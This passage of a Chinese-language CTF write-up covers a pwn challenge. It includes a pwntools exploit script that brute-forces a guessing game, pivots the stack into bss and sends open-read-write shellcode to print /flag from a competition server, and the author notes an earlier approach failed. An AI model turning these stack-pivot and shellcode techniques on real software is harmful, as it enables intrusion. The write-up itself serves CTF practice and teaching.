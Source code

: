 
另外把canary放进去的方案也试过,不过没成功.也许其他师傅可以试试这个方案能不能打通.

12.01修改:似乎我这个方案也不能成功打通...就很奇怪.在程序成功进入what,输入命令并执行后就直接eof了.之后我会再想想办法.

#### 2又一道orw

简单的说,就是一道线上就是莫名其妙过不了的orw.于是只好把解题脚本废物利用一下,试一试侧信道爆破

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
#libc=ELF("./libc-2.27.so")
r=remote("node5.anna.nssctf.cn",27599)
#r=process("./pwn")
#gdb.attach(r)
#pause()
#00601000-00602000
bss_add=0x601A00
read_add=0x400931
def solve_random():#题目的随机数范围是0~49,尝试次数是100次,我就直接一直猜同一个数了
	r.recvuntil("please input a guess num:\n")
	while True:
		r.sendline(b"25")
		recv_=r.recv()
		if "good guys" in recv_:
			return


solve_random()
r.interactive()
payload1=b'a'*0x20+p64(bss_add+0x20)+p64(read_add)+"\x00"*0x10
r.send(payload1)
set_rdx=asm('''
mov     edx, 0x200 ;
lea rax,[rbp-0x100] ;	
ret
nop
nop
nop
''')

print(len(set_rdx))
payload2=set_rdx+b'a'*0x10+p64(bss_add+0x200-0x8)+p64(bss_add)+p64(read_add+0x9)+"\x00"*0x8
r.send(payload2)

orw=shellcraft.open('/flag')
orw+=shellcraft.read(3,bss_add+0x400,0x50)
orw+=shellcraft.write(1,bss_add+0x400,0x50)
payload3=asm(orw).ljust(0x100,'\x00')+p64(0)+p64(bss_add+0x100-0x8)
r.send(payload3)
r.interactive()
```
